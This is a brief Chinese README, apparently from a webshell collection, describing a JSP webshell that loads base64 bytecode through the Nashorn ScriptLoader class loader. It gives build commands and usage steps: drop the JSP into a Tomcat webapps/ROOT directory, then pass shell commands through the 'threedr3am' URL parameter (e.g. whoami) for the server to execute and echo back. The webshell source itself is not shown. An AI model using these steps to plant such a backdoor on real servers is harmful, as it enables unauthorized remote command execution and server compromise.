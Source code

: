 ### jdk.nashorn.internal.runtime.ScriptLoader类加载器加载的JSP Webshell

生成字节码：
```
javac Threedr3am_6.class
java Threedr3am_6
cat Threedr3am_6.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问6.jsp，并使用参数threedr3am传入需要远程执行的命令，例：http://127.0.0.1:8080/6.jsp?threedr3am=whoami

3.服务器将会执行相应的shell命令，最后回显
```